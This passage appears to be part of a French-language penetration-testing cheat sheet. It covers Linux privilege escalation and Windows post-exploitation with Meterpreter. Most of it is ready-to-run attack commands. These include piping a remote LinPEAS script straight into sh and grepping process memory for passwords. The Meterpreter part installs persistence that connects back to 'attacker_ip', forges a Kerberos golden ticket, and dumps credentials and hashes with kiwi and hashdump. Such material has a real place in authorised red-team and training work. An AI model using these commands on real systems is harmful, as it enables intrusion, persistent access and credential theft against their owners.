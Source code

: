 ```bash
strings /proc/[pid]/mem | grep -i pass
```

### Phase 4 : Escalade de Privilèges
```bash
# 1. LinPEAS pour enumeration automatisée
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# 2. Tests manuels courants
sudo -l                           # Sudo misconfiguration
find / -perm -4000 2>/dev/null   # SUID binaries
getcap -r / 2>/dev/null          # File capabilities
```

## 🖥️ Post-Exploitation Windows avec Meterpreter

### Session Meterpreter - Commandes Essentielles
```bash
# Après obtention d'une session meterpreter
meterpreter > sysinfo              # System information
meterpreter > getuid               # Current user
meterpreter > ps                   # Running processes
meterpreter > netstat              # Network connections

# Migration de processus (important!)
meterpreter > ps                   # Find target process
meterpreter > migrate [PID]        # Migrate to stable process

# Upload/Download de fichiers
meterpreter > upload /local/file.txt C:\\temp\\file.txt
meterpreter > download C:\\file.txt /local/path/
```

### Persistence Windows avec Meterpreter
```bash
# 1. Service persistence
meterpreter > run persistence -S -U -X -i 60 -p 4445 -r attacker_ip

# 2. Registry persistence
meterpreter > run persistence -H -U -X -i 60 -p 4445 -r attacker_ip

# 3. Metsvc service
meterpreter > run metsvc -A        # Install Meterpreter service

# 4. Golden ticket (si Domain Admin)
meterpreter > load kiwi
meterpreter > golden_ticket_create -d domain.com -k [krbtgt_hash] -s [SID] -u administrator -t /tmp/golden.ticket
```

### Credential Harvesting Windows
```bash
# 1. Mimikatz via Meterpreter
meterpreter > load kiwi
meterpreter > creds_all            # Dump all credentials
meterpreter > creds_wdigest        # WDigest passwords
meterpreter > creds_msv            # MSV passwords
meterpreter > creds_livessp        # LiveSSP passwords

# 2. Hash dumping
meterpreter > hashdump             # Local SAM hashes
meterpreter > lsa_dump_sam         # SAM via LSA
meterpreter > lsa_dump_secrets     # LSA secrets
```